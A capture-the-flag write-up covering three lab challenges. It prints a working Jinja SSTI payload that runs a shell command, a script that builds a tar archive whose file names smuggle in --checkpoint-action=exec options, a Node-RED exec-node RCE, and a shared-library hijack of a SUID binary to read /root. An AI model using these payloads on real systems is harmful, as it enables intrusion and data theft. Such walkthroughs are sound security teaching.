










# Web/Ganzir

First thing to notice were three visible endpoints `Dashboard`, `login` and `employee`.


On `employee` endpoint, a `403 Forbidden` message was clearly visible. Besides that, there was a log which suggested CL.TE (Content-Length / Transfer-Encoding) desync vulnerability. However that was a deadend.


However there was this line in dashboard `Legacy recovery service re-enabled for Records staff during evacuation.` whcih suggested that there might be some user involved. 

## Unintended Path (Weak Credentials)
And on checking `login` endpoint I found `Cassie`.


First thing to try when I see any Login form is some random  `usernames` and `passwords`
- admin:admin
- root:root
- Admin:admin
- But we had user cassie, I tried `cassie:cassie` (boom logged in)

I'm sure it was not the intended way.

## Intended Path:

In the same `login` form we have a `/reset` link which sends password reset link to a existing user.

Sending the reset link for `cassie`. The request sends a `X-Requested-With: recovery-console` header along with the `form-data`. Response for `cassie`:

```json
{"delivery":"site19-internal-mail","message":"Recovery link sent to c***r@site19.int.","ok":true,"relay_id":"Q-F3BFF931","smtp_trace":"eyJyZWxheSI6IlEtR<REDACTED>"}
```

The `smtp_trace` is just base64 encoded value for the `/reset` link sent to user:

```json
{"relay":"Q-F3BFF931","rcpt":"cassie.mercer@site19.int","preview_url":"http://ganzir<>.omnictf.com/reset/qfYoa-2ZLMTa9uzvE5YjJ8HI","retention":"debug-preview-enabled"}
```

The has a `/reset` link attached with the response. Sending `password=anything` in the request resets the password for `cassie`
- Response: `302 Found`

Logging in as `cassie` and the password we've just set. We see many more visible endpoints


A little and there is a potential vulnerable endpoint an SSTI vulnerability:


SSTI in `/briefing-template`

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()  }}
```

flag: `CTF{ganzir_was_already_in_the_fire_plan}`


# Web/Staywild

The homepage reveals a `DOM-XSS` an intentional rabbit-hole. No note review bot was exposed.



Next thing to try was some directory enumeration, which gave

```bash
# Dirsearch started Fri Jul 17 13:56:17 2026 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u https://staywild-<>.inst.omnictf.com/

200    73B   /robots.txt
200     2KB  /staging
```
- `/robots.txt` contained:
  ```text
    User-agent: *

    # Field archive tooling is not ready for public indexing.
  ```

- `/staging` was interesting which had an archive upload feature and only `.tar` archives were accepted. Also the text suggests the `.tar` archive is unpacked inside a `workspace`
  


## Exploitation 
### Uploading a tar file

```bash
echo "test" > hello.txt
tar -cf archive.tar hello.txt
```

We had following response:


The image shows the extraction logs and some disabled endpoints `upload` and `download`

### Enabling the `upload` feature

The workspace page contains a disabled "Upload additional files" form:

```html
<form action="/additional/1784313460974"
      method="POST"
      enctype="multipart/form-data">
  <input data-beta-upload disabled type="file" name="file" multiple hidden>
  <button data-beta-upload disabled type="button">
    Upload additional files
  </button>
</form>
```

The JavaScript even exposes a helper function:

```js
// Only for admins
window.enableExperimentalIntake = function () {
  document.querySelectorAll("[data-beta-upload]").forEach((el) => {
    el.removeAttribute("disabled");
    el.classList.remove("is-disabled");
  });

  localStorage.setItem("experimentalIntake", "enabled");
};
```
The `upload` button is disabled only for browser side we can enable it by simply typing `window.enableExperimentalIntake()` in console.

There is also `/additional/<id>` endpoint that takes `POST` request of additional `.tar` archive.

### Exploiting `/additional/<id>` feature

Now we create a malicious tar using `checkpoint` feature of `tar`

```python
import tarfile
import io

buf = io.BytesIO()
with tarfile.open(fileobj=buf, mode='w') as tar:
    script = b'''#!/bin/sh
id >&2
'''

    info = tarfile.TarInfo(name='x.sh')
    info.size = len(script)
    info.mode = 0o755
    tar.addfile(info, io.BytesIO(script))

    info1 = tarfile.TarInfo(name='--checkpoint=1')
    info1.size = 0
    tar.addfile(info1, io.BytesIO(b''))

    info2 = tarfile.TarInfo(name='--checkpoint-action=exec=sh x.sh')
    info2.size = 0
    tar.addfile(info2, io.BytesIO(b''))

with open('dump.tar', 'wb') as f:
    f.write(buf.getvalue())

print("Done: dump.tar")
```
Response:

```text
[extraction 2] additional extraction pass
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
hello.txt
tar: archive.tar: Not found in archive

[additional archive: dump.tar]
x.sh
--checkpoint=1
--checkpoint-action=exec=sh x.sh
```
change the script to:

```bash
cat /app/Dockerfile >&2
```
Response:
```bash
[extraction 3] additional extraction pass
FROM node:20-bookworm

<REDACTED>

RUN mkdir -p /workspaces /app/tmp /opt/wild/.cache /opt/wild/public \
    && printf 'b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==\n' > /opt/wild/.cache/seed-574 \
    && printf 'public field notes only\n' > /opt/wild/public/readme.txt

<REDACTED>
```

### Flag is base64 encoded
```bash
echo "b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==" | base64 -d
```
Flag: `omniCTF{w1ldc4rds_can_g3t_w1ld}`

# Misc/Node

We have a `Node-Red flow editor v5.0.1` running. 


First thing to try was to search for some CVE for that version and I found some but on version `4.0.9`. However, the functionality of vulnerability was the same.
Here is the older one: [RCE Node-RED version 4.0.9](https://hakaisecurity.io/flow-to-shell-achieving-rce-in-node-red-through-misconfiguration/research-blog/) 

## RCE in Node-red
This is how we run the workflow:

- Add a timestamp node
- connect it with an `exec` node
- connect the `STDOUT` of debug node with the output of `exec`
- the result id shown in `debug` message


We had the RCE but we needed to escalate the privileges

## Privilege Escalation

### Get a grasp of what you can run
The workspace had some limited command tools available:

```bash
#exec
which bash python python3 perl ruby wget curl php lua node

#Response
/usr/bin/curl
/usr/bin/node
```

We need to find binaries with `SUID` bits

```bash
# exec
find / -perm -4000 -type f 2>/dev/null

#Response
/usr/local/bin/nodestatus
```

While checking the binary we find a library file `libshared.so` and other important functions such as `print_banner()` and `log_status()`

```bash
Y/lib/ld-musl-x86_64.so.1
printf
__cxa_finalize
__stack_chk_fail
__deregister_frame_info
_ITM_registerTMCloneTable
_ITM_deregisterTMCloneTable
__register_frame_info
log_status
print_banner
socket
connect
memset
inet_addr
__libc_start_main
libshared.so
libc.musl-x86_64.so.1
<REDACTED>
```
`libshared.so` was located in `/var/lib/node/libshared.so`

we have a `entrypoint.sh` file which reveals we have `RWX` permissions on `/var/lib/node`

```bash
cat /entrypoint.sh

#!/bin/sh
set -e
chmod 0777 /var/lib/node
exec su -s /bin/sh svc_node -c "node-red"
```

### Crafting a malicious `libshared.so`

We look what's inside `/root`:
```bash
printf '#include <stdio.h>\n#include <dirent.h>\nvoid log_status() {\n  DIR *d = opendir("/root");\n  struct dirent *e;\n  if (d) { while ((e = readdir(d))) printf("%%s\\n", e->d_name); closedir(d); }\n}\nvoid print_banner() {}\n' > /var/lib/node/evil.c
```

- compile it using gcc `gcc -shared -fPIC -o /var/lib/node/libshared.so /var/lib/node/evil.c`

But before running `/usr/local/bin/nodestatus` add a function node with

```js
msg.payload = Buffer.from(msg.payload).toString();
return msg;
```
- output: 

```text
..
.
flag.txt
.npm
  Port   : 127.0.0.1:1880
  Status : <>
```

We know the location of flag so replace the script with location of file

```bash
printf '#include <stdio.h>\nvoid log_status() {\n  FILE *f = fopen("/root/flag.txt", "r");\n  char buf[256];\n  if (f) { while (fgets(buf, 256, f)) printf("%%s", buf); fclose(f); }\n}\nvoid print_banner() {}\n' > /var/lib/node/evil.c
```
Compile and run to get flag:
Response:
```text
OmniCTF{N0d3_3v3rywh3r3_1d974eea307327134462512614582680}
  Port   : 127.0.0.1:1880
  Status : <>
```

Flag: `OmniCTF{N0d3_3v3rywh3r3_1d974eea307327134462512614582680}`
